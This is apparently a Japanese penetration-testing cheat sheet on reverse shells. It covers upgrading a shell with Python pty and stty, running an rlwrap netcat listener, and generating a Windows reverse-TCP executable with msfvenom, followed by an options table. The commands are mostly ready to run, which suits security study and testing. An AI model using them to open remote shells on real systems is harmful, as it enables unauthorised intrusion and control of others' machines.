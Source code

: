 ## Python

Pythonがデフォルトインストールされていることの多いLinuxの場合に有効な手段。

```bash
# pythonを用いてbash shellを生成
python -c 'import pty;pty.spawn("/bin/bash")'

# term commandsにアクセスできるようにする
export TERM=xterm

# ctrl + Zでshellをバックグラウンドに回した後でterminal echoを無効にし、シェルに戻る
stty raw -echo;fg
```

## rlwrap

windowsのshellを扱う場合に有効。

```bash
rlwrap nc -lvnp PORT_NUMBER
```
## Msfvenom

リバース・バインドシェルのコードを生成するツール。様々な形式( `.exe` や `.py` )のペイロード作成にも使える。

msfvenomの基本的な構文は以下。

```bash
msfvenom -p PAYLOAD OPTIONS

# windowsのリバースシェルをexeで作成
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=LOCAL_IP_ADDRESS LPORT=PORT_NUMBER
```
### OPTIONS

|オプション|説明|
|---|---|
|-f|引数にアウトプットの形式を取る|
|-o|引数に生成されたペイロードの保存場所とファイル名を取る|
|LHOST|接続先のIPアドレス|
|LPORT|接続先のポート番号|
|-a|引数にアーキテクチャを指定|
|-p|引数にペイロードを指定|
|-v|ペイロードを含む変数名を引数に取る|

ペイロードの例
